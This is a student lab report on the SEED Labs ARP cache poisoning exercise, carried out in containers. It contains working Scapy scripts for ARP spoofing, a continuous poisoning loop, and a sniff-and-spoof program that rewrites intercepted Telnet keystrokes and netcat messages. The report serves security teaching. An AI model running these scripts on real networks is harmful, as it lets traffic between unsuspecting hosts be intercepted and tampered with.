








# AiTM 2 LAB REPORT

In this report, SeedLabs is used to showcase ARP Cache Spoofing.

## Tools

- SEED Ubuntu-20.04 VM
- Docker/Podman

## 1. Environment Setup using Container
In this lab, we need three machines. We use containers to set up the lab environment. In this setup, we have an attacker machine (Host M), which is used to launch attacks against the
other two machines, Host A and Host B. These three machines must be on the same LAN, because the ARP
cache poisoning attack is limited to LAN. We use containers to set up the lab environment

We download the Labsetup.zip file to our VM from the lab’s website, unzip it, enter the Labsetup
folder, and use the docker-compose.yml file to set up the lab environment.
```
$ docker-setup build
$ docker-setup up
```

## Task #1. ARP Cache Poisoning
The objective of this task is to use packet spoofing to launch an ARP cache poisoning attack on a target,
such that when two victim machines A and B try to communicate with each other, their packets will be
intercepted by the attacker, who can make changes to the packets, and can thus become the man in the
middle between A and B.
In this task, we have three machines (containers), A, B, and M. We use M as the attacker machine. We
would like to cause A to add a fake entry to its ARP cache, such that B’s IP address is mapped to M’s MAC
address.

There are many ways to conduct ARP cache poisoning attack:

### Task #1.A (using ARP request)
On host M, we construct an ARP request packet to map B’s IP address
to M’s MAC address. We send the packet to A and check whether the attack
is successful or not.
```
#!/usr/bin/python3
from scapy.all import *

E=Ether()
E.dst="02:42:0a:09:00:05" #ETH-A

A=ARP()
A.op=1 #1forARPrequest;2forARPreply
A.hwsrc=E.src #ETH-M
A.hwdst="ff:ff:ff:ff:ff:ff"
A.psrc="10.9.0.6" #IP-B
A.pdst="10.9.0.5" #IP-A

pkt=E/A

sendp(pkt)
```
The above program performs the attack.

As we can see from the before and after, the poisoned ARP entry is correctly produced on A's machine:
 
### Task #1.B (using ARP reply)
On host M, we construct an ARP reply packet to map B’s IP address to
M’s MAC address. We send the packet to A and check whether the attack is successful or not.
```
#!/usr/bin/python3
from scapy.all import *

E=Ether()
E.dst="02:42:0a:09:00:05" #ETH-A

A=ARP()
A.op=2 #1forARPrequest;2forARPreply
A.hwsrc=E.src #ETH-M
A.hwdst="02:42:0a:09:00:05" #ETH-A
A.psrc="10.9.0.6" #IP-B
A.pdst="10.9.0.5" #IP-A


pkt=E/A

sendp(pkt)
```
The above program performs the attack.

#### Scenario 1: B’s IP is already in A’s cache
We clear A's ARP cache and fill it with B's correct entry and we perform the attack
As the before and after screenshots show, it succeeds:
 
#### Scenario 2: B’s IP is not in A’s cache
We clearn A's ARP cache and try the attack again. The before and after screenshots show, again,
that the attack fails:
 
### Task #1.C (using ARP gratuitous message)
On host M, we construct an ARP gratuitous packet, and use
it to map B’s IP address to M’s MAC address. We launch the attack under the same two scenarios
as those described in Task 1.B.
```
#!/usr/bin/python3
from scapy.all import *

E=Ether()
E.dst="ff:ff:ff:ff:ff:ff"

A=ARP()
A.op=1 #1forARPrequest;2forARPreply
A.hwsrc=E.src #ETH-M
A.hwdst="ff:ff:ff:ff:ff:ff"
A.psrc="10.9.0.6" #IP-B
A.pdst="10.9.0.6" #IP-B


pkt=E/A

sendp(pkt)
```
The above program performs the attack.

#### Scenario 1: B’s IP is already in A’s cache
We first fill B's IP in A's ARP cache. Then, as the before and after screenshots show,
the attack is successful:
 
#### Scenario 2: B’s IP is not in A’s cache
We clearn A's ARP cache and try the attack again. The before and after screenshots show, again,
that the attack fails:
 
## Task #2. MITM Attack on Telnet using ARP Cache Poisoning
Hosts A and B are communicating using Telnet, and Host M wants to intercept their communication, so it
can make changes to the data sent between A and B. 
### Step 1. (Launch the ARP cache poisoning attack)
First, Host M conducts an ARP cache poisoning
attack on both A and B, such that in A’s ARP cache, B’s IP address maps to M’s MAC address, and in B’s
ARP cache, A’s IP address also maps to M’s MAC address. After this step, packets sent between A and B
will all be sent to M. We will use the ARP cache poisoning attack from Task 1 to achieve this goal. It is
better that we send out the spoofed packets constantly (e.g. every 5 seconds); otherwise, the fake entries
may be replaced by the real ones.
```
#!/usr/bin/python3
from scapy.all import *
from time import sleep

E=Ether()
E.dst="ff:ff:ff:ff:ff:ff"

while True:
    A=ARP()
    A.op=1 #1forARPrequest;2forARPreply
    A.hwsrc=E.src #ETH-M
    A.hwdst="ff:ff:ff:ff:ff:ff"
    A.psrc="10.9.0.6" #IP-B
    A.pdst="10.9.0.6" #IP-B
    pkt=E/A
    sendp(pkt)
    A=ARP()
    A.op=1 #1forARPrequest;2forARPreply
    A.hwsrc=E.src #ETH-M
    A.hwdst="ff:ff:ff:ff:ff:ff"
    A.psrc="10.9.0.5" #IP-A
    A.pdst="10.9.0.5" #IP-A
    pkt=E/A
    sendp(pkt)
    sleep(5)
```
The above program performs the continuous poisoning attack.

### Step 2. (Testing)
First, we make sure that the IP forwarding on Host M is turned off.
We do that with the following command: `# sysctl net.ipv4.ip_forward=0`.

After the attack is successful,
we try to ping each other between Hosts A and B. As can be seen from the screenshots, 
in both cases the ping does not receive a response:
 

### Step 3. (Turn on IP forwarding)
Now we turn on the IP forwarding on Host M with the following command: `# sysctl net.ipv4.ip_forward=1`, so it will forward the
packets between A and B, and we repeat Step 2.

As we can see from the following screenshot, A and B can now ping each other
and a redirection gets signaled.
 

### Step 4. (Launch the MITM attack)

Assume that A is the Telnet client and B is the Telnet server. After A has connected to the Telnet server on
B, for every keystroke typed in A’s Telnet window, a TCP packet is generated and sent to B. We would like
to intercept the TCP packet, and replace each typed character with a fixed character (say Z). This way, it
does not matter what the user types on A, Telnet will always display Z.

From the previous steps, we are able to redirect the TCP packets to Host M, but instead of forwarding
them, we would like to replace them with a spoofed packet. We will write a sniff-and-spoof program to
accomplish this goal. In particular, we would like to do the following:
- We first keep the IP forwarding on, so we can successfully create a Telnet connection between A to
B. Once the connection is established, we turn off the IP forwarding using the following command.
`# sysctl net.ipv4.ip_forward=0`
- We run our sniff-and-spoof program on Host M, such that for the captured packets sent from A to B,
we spoof a packet but with different TCP data. For packets from B to A (Telnet response), we do not
make any change, so the spoofed packet is exactly the same as the original one.
```
#!/usr/bin/env python3

from scapy.all import *
from scapy.layers.inet import IP, TCP

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"
MAC_M = "02:42:0a:09:00:69"


def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        # Create a new packet based on the captured one.
        # 1) We need to delete the checksum in the IP & TCP headers,
        # because our modification will make them invalid.
        # Scapy will recalculate them if these fields are missing.
        # 2) We also delete the original TCP payload.
        newpkt = IP(bytes(pkt[IP]))
        del newpkt.chksum
        del newpkt[TCP].payload
        del newpkt[TCP].chksum
        if pkt[TCP].payload:
            # Construct the new payload based on the old payload.
            data = pkt[TCP].payload.load  # The original payload data
            newdata = data if data[0] == 0xFF else 'Z'
            send(newpkt / newdata)
        else:
            send(newpkt)
    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        # Create new packet based on the captured one
        # Do not make any change
        newpkt = IP(bytes(pkt[IP]))
        del newpkt.chksum
        del newpkt[TCP].chksum
        send(newpkt)


f = f"tcp and not ether src {MAC_M}"
pkt = sniff(iface="eth0", filter = f, prn = spoof_pkt)
```
The code above captures all the TCP packets related to A, and then for packets from A to B,
it changes all letters to a `Z` and runs successfully.

##  Task 3. MITM Attack on Netcat using ARP Cache Poisoning
This task is similar to Task 2, except that Hosts A and B are communicating using netcat, instead of
telnet. Host M wants to intercept their communication, so it can make changes to the data sent between
A and B. We use the following commands to establish a netcat TCP connection between A and B:
```
On Host B (server, IP address is 10.9.0.6), run the following:
# nc -lp 9090
On Host A (client), run the following:
# nc 10.9.0.6 9090
```
Once the connection is made, we can type messages on A. Each line of messages will be put into a TCP
packet sent to B, which simply displays the message. We  replace every occurrence of the word
_SIMONE_ in the message with a sequence of A’s.

```
newdata = data.replace(b"SIMONE", b"AAAAAA") if b"SIMONE" in data else data
```
To complete the task, we only need to change the previous task's code where the new packet
is generated. This code correctly intercepts and substitutes the substring, if present, as shown by the following
screenshot:


